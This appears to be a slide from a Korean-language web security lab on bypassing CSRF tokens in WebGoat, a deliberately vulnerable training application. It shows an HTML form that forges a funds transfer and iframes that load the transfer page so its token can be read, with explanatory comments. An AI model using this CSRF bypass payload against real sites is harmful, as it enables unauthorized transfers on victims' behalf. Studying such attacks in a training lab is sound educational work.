

CSRF Token By-Pass

<form accept-charset='UNKNOWN' id='transferForm' method='POST' action='attack?Screen=XXX&menu=YYY' enctype='application/x-www-form-urlencoded'>
   <input name='transferFunds' type='text' value='0'>
   <input name='CSRFToken' type='hidden' value='0'>
   <input type='submit'>
</form>
//비어있는 폼을 만들어 Refresh가 가능하도록 했을뿐 기능적인 요소는 아니다.
<iframe   src="http://server.csec.local:8080/webgoat/attack?Screen=XXX&menu=YYY&transferFunds=main"
   onload="readFrame1();"
   id="frame1" frameborder="1" marginwidth="0"
   marginheight="0" width="800" scrolling=yes height="300"></iframe>
<iframe id="frame2" frameborder="1" marginwidth="0"
   marginheight="0" width="800" scrolling=yes height="300"></iframe>
//transferFunds = main으로 설정하여 토큰값을 불러오는 페이지를 띄우고, Frame으로 선언한다.